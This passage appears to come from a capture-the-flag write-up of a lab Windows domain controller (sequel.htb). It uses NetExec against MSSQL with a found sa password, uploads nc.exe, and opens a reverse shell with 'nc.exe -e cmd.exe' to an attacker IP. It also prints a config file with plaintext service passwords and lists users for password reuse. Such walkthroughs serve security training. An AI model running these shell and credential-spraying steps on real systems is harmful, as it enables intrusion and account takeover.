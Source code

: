 ```bash
nxc mssql 10.10.11.51 -u sa -p 'MSSQLP@ssw0rd!' --dns-server 10.10.11.51 --local-auth
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

We can use `nxc` again to get an actual shell. 

```bash
nxc mssql 10.10.11.51 -u sa -p 'MSSQLP@ssw0rd!' --dns-server 10.10.11.51 --local-auth --put-file /usr/share/windows-binaries/nc.exe c:\\Users\\Public\\nc.exe
nxc mssql 10.10.11.51 -u sa -p 'MSSQLP@ssw0rd!' --dns-server 10.10.11.51 --local-auth -x "c:\\Users\\Public\\nc.exe -e cmd.exe 10.10.14.203 5555"
```

After looking around the machine's files (for way longer than I care to admit), we eventually stumble upon the file `C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI` which contains credentials for the `sql_svc` user. 

```
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
...
```

We can then get a list of users available on the machine, and try the password we found on all of them to see if we can connect to anything. 

```batch
C:\SQL2019\ExpressAdv_ENU>net user
net user

User accounts for \\DC01

-------------------------------------------------------------------------------
Administrator            ca_svc                   Guest                    
krbtgt                   michael                  oscar                    
rose                     ryan                     sql_svc          
```

